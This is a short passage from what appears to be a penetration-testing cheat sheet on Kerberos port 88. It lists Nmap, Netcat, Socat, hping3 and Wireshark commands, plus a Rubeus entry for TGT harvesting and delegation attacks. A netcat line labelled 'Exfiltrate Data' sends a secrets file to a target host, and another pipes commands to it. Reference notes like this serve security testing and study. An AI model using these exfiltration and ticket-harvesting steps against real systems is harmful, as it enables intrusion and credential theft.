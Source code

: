     ```bash
    wireshark -i <interface> -f "tcp port 88"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 88
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 88
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 88 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 88
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 88 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:88
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send UDP Packet:** Send a single UDP packet to the service.

    ```bash
    hping3 -2 <target_ip> -p 88 -c 1
    ```

#### \[\[Rubeus]]

*   **Description:** A C# tool used to interact with the Kerberos protocol, capable of performing various Kerberos attacks, including ticket harvesting, pass-the-ticket, and more.

    ```bash
    rubeus.exe tgtdeleg
    ```
* **Use Case:** Harvesting TGTs and performing Kerberos delegation attacks.
